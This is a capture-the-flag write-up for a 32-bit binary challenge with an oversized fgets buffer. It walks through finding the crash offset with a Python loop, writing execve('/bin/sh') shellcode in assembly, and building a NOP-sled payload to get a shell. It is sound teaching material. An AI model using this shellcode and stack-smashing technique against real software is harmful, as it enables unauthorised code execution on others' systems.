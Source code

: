 # New Office

## Authors

- @jame (Frank)

## Category

- Binary Exploit

## Description

We aren't using gets this time so good luck trying to execute a buffer overflow

`nc pwn.ctf.unswsecurity.com 5001`

## Difficulty

- Easy

## Points

50

## Files

- [new_office](_ctfd/files/new_office): binary to exploit

Try include a link to the file where possible (such as within a repo).

## Solution

<!-- <details>
<summary>Spoiler</summary> -->

### Idea

Use buffer overflow to redirect code execution!

### Walkthrough

As usual, a plug for LiveOverflow is due:

- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)
  (Shall go into the exploits in MUCH more detail, is how @Sequeli learnt buffer overflows)

This challenge is similar to [Welcome to Skylight Cyber](/binary/Welcome-To-Skylight-Cyber/writeup.md), however the main thing is that we're not using gets anymore. But lets try a lot of input anyway, and we see that the program segfaults
  
```bash
python2 -c "print 'a' * 100" | ./new_office
# segmentation fault
```

Why did this happen?

Disassembling the binary, we see that while it uses fgets, the "push" instruction pushes an absurdly large number on the stack, larger than the buffer itself. This is _almost_ same as making a gets call directly since we can overwrite the stack and the return address in extension

![fgets, with an absurd buffer size](writeup-imgs/fgets.png)
```c
fgets(buffer, 0x1388)
```

Notice how the addresses are offsets (a very low number). This means that PIE (Position Independent Execution) is enabled. We can check this using pwntools:
```bash
checksec new_office
```
This also means that the addresses in the binaries keep changing and cannot be hardcoded.

But first, we need to find the offset to the return address. We can use a modified version of the solution from the welcome to the secsoc challenge to find the address
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i
    
    # open a link to the program and execute
    prog = Popen('./new_office', stdin=PIPE, stdout=PIPE)
    prog.communicate(test)

    # Segfault
    if prog.returncode == -11:
        print(i)
        break
```

Here we get 62 again, the buffer size is the same.

The next problem is to find how to exploit the program. There's no `win` function, so the best thing to do is to try and open a shell, so we can grab the flag from the server.

Since we have a lot of space on the stack, we could make use of the space to create and execute our exploit. From `checksec` earlier, we see that the NX (Non-executable Stack) protection is turned off as well.

So we can choose our exploit to be shellcode-based. Shellcode is just machine code that the program can execute. It's simply inserting your instructions into a binary.

We can again use to generate the shellcode for us, we simply write the assembly for it. We essentially want to mock the `system()` syscall and pass it the string "/bin/sh" (or in hex: `0x2f62696e2f7368`). In C this would be:
```c
system("/bin/sh")
```
which would open a shell.

**Note:** We need to format /bin/sh to be in little endian format, and split it into two parts so that it can be pushed onto the stack. /bin/sh is actually padded to `//bin/sh` to make it 8 bytes so that it can be pushed onto the stack. This is a nice trick since executing `//bin/sh` is the same as executing `/bin/sh`

Here's the assembly to set up the registers properly for the syscall
```py
shellcode = asm(
'''
xor eax, eax
push eax

push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
mov edx, ecx

mov eax, 0xb
int 0x80
'''
)
```
Now we can jump to it. We're told the address of the buffer, so we can simply put the shellcode in the buffer and then jump to it

Finally, since aslr is turned on, if the address is not exactly at the start of our shellcode, then the exploit won't run. To avoid this, we can use something called a "nop sled". The `nop` (0x90) instruction does nothing, so we can put a ton of them before our shellcode to make sure that the shellcode will always execute in order. We can put an arbitrary number of `nop`s (say 500). The more the better.

So the payload is:
```py
buff_addr = (...) # get this from the program itself
payload = b"\x90"*62 + buff_addr + b"\x90"*500 + shellcode
```

And now we can automate all of this using pwntools. An example of which is in [the solve script in this repository](solve.py)


### Flag

`SKYLIGHT{3x3CuTe_0ff1cE_5TACK}`

</details>
